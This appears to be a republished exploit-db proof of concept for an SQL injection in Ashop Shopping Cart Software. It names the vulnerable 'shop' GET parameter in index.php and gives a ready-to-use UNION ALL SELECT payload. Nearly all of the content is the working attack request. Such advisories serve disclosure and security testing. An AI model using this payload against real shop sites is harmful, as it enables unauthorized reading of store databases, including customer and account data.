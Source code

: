 ```yaml
---
layout:     post
title:      "Ashop Shopping Cart Software - SQL Injection"
date:       2019-04-03 12:05
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Ashop Shopping Cart Software - SQL Injection
# Date: 03.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: http://www.ashopsoftware.com
# Software Link: https://sourceforge.net/projects/ashop/
# Demo Site: http://demo.ashopsoftware.com/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/index.php?cat=1&exp=&shop=1
Vulnerable Parameter: shop (GET)
Payload: cat=1&exp=&shop=-5438') UNION ALL SELECT
CONCAT(0x71786b6a71,0x6357557777645143654a726369774c4167665278634a46617758614d66506b46434f4b7669565054,0x716a787671),NULL--
fmIb
